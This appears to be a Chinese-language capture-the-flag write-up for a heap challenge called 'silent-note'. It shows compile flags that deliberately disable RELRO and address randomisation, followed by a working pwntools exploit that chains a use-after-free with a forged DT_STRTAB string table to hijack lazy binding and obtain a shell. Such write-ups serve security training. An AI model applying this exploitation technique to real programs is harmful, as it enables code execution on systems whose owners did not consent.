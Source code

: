 # silent-note

UAF利用与延迟绑定机制利用

难点：利用延迟绑定机制getshell

## 编译方法

```
gcc silent-note.c -o silent-note -O0 -fstack-protector-all -z noexecstack -fPIE -no-pie -s -z norelro
```

说明：

+ `-fstack-protector-all`全面开启canary防护
+ `-z noexecstack`开启NX防护
+ `-fPIE -no-pie`关闭内存随机化
+ `-O0`关闭代码优化
+ `-s`删除调试符号
+ `-z norelro`关闭RELRO保护，使关键字段可以改写

## exp

没有任何回显，无法通过泄露libc地址计算system等函数的地址

getshell原理：通过伪造`DYNAMIC`段中`DT_STRTAB`对函数进行定位的字符串表，来控制延迟绑定时所绑定的函数

```python
#!/usr/bin/python
# -*- coding: utf8 -*-

from __future__ import print_function
from pwn import *

context.log_level='debug'

elf = ELF('./silent-note')
io = process('./silent-note')

def new_note(size, content):
    io.sendline('1')
    io.sendline(str(size))
    io.send(content)

def edit_note(index, content):
    io.sendline('2')
    io.sendline(str(index))
    io.send(content)

def delete_note(index):
    io.sendline('3')
    io.sendline(str(index))



new_note(128, 'a' * 128)
new_note(128, 'b' * 128)
new_note(8, '/bin/sh\x00')
delete_note(0)
delete_note(1)
new_note(16, p64(256) + p64(elf.bss() + 0x800))
payload = '\x00libc.so.6\x00exit\x00__isoc99_scanf\x00__stack_chk_fail\x00stdin\x00calloc\x00memset\x00read\x00stdout\x00mprotect\x00stderr\x00setvbuf\x00__libc_start_main\x00system\x00'.ljust(256, 'c')
edit_note(0, payload)
edit_note(3, p64(8) + p64(0x601EB0))
edit_note(0, p64(elf.bss() + 0x800))
edit_note(3, p64(8) + p64(elf.got['free']))
edit_note(0, p64(0x4006C6))
delete_note(2)

io.interactive()

```